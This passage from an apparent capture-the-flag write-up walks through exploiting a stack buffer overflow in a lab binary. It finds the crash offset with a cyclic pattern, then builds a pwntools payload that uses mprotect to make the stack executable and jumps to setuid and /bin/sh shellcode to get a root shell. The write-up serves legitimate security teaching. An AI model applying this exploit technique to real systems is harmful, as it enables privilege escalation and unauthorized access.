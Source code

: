Put the pattern into a file:

```

xalvas@calamity:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9" > /tmp/0xdf

```

And give that to the `debug` function. On hitting enter, it crashes:

```

Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x63413563 in ?? ()

```

I can take that back to my box and find the offset:

```

root@kali# msf-pattern_offset -q 0x63413563
[*] Exact match at offset 76

```

#### Stage 3 - Shell

My first instinct was to use a ret2libc attack. That failed, and I’ll cover it in [Beyond Root](#beyond-root).

My new strategy is to go what I believe the author is trying to force me to do, which is to get a shell with two steps:
- Make the stack executable;
- Jump to the start of the vulnerable buffer where I’ll have shellcode.

To accomplish that, I’ll overwrite

The payload will start with the shellcode to run a shell (I’ll include a call to `setuid` just in case the binary is dropping priv), followed by junk to fill out 76 bytes. Then I’ll include the return address with the address of `mprotect`. The next word will be the return address for that function, which will be the buffer. Then I’ll have the three arguments for `mprotect`.

Since the program is already waiting for a filename to read in `debug`, I just need to write this payload to a file, and then pass that filename to the program, and go interactive:

```

## Stage 3 - Shell
mprotect = 0xb7efcd50
size = stack_end - stack_start
shellcode = asm(shellcraft.setuid(0) + shellcraft.execve('/bin/sh'))

payload =  shellcode
payload += b"A" * (76 - len(shellcode))
payload += p32(mprotect)
payload += p32(buff_addr)
payload += p32(stack_start)
payload += p32(size)
payload += p32(7)
log.info(f'Writing Stage 3 exploit to {fn}')
sshConn.upload_data(payload, fn)

goodluck.sendline(fn)
log.info(f'Cleaning up {fn}')
sshConn.unlink(fn)
goodluck.interactive(prompt='')

```